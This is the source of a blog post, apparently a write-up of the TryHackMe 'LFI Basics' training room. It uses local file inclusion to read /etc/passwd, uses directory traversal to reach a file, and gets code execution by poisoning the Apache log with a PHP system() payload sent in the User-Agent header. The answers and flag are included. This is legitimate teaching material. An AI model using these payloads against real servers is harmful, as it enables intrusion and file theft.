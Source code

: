 ```yaml
---
layout: post
title: Write-Up [THM] LFI Basics
categories: [Write-Ups]
tags: [TryHackMe, LFI]
featured-image:  thm/lfiBasics/theme.png
featured-image-alt: LFI Basics
---
```


It's a write-up about the room : [Try Hack Me - Room : LFI Basics](https://tryhackme.com/room/lfibasics)

# [Task 1] - Local File Inclusion

* What's the message you get when you include the home.html?

We went on `http://ip_machine/lfi/lfi.php/?page=home.html` and the message was **You included home.html**.

* What user that it's not by default there is present?

We read the passwd file : `http://ip_machine/lfi/lfi.php/?page=/etc/passwd` and found the user **lfi**.

# [Task 2] - Local File Inclusion using Directory Traversal

* Add the "?page=" parameter, and try to include the home page again. Does it work (Yes/No)? **No** 

* What are the credit card numbers ? 

`http://ip_machine/lfi2/lfi.php/?page=../creditcard` and found **1111-2222-3333-4444**.

# [Task 3] - Reaching RCE using LFI and log poisoning

`http://ip_machine/lfi/lfi.php/?page=/var/log/apache2/access.log`

* Can you read the log (Yes/No)? **Yes**

* Give it a try and run uname -r. What's the output of the command?

`http://ip_machine/lfi/lfi.php?page=/var/log/apache2/access.log&lfi= uname -r`

With BurpSuite, we changed the User-Agent :  
`Mozilla/5.0 <?php system($_GET['lfi']); ?> Firefox/79.0`.   

And after that we send with the repeater : `http://<IP>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname%20-r`.  
The answer is : `4.15.0-72-generic`

* With this knowledge read the flag from the lfi user home directory.

To begin we searched what file can contained the flag with the command ls in the lfi user home directory : `GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=ls%20../../../../../../home/lfi/`

We found :
```
Documents
Downloads
Music
Pictures
Public
Templates
Videos
flag.txt
```

Therefore we read the content of the file flag.txt : 
`GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=cat%20../../../../../../home/lfi/flag.txt`.  

We found the last flag : **THM{a352a5c2acfd22251c3a94105b718fea}**.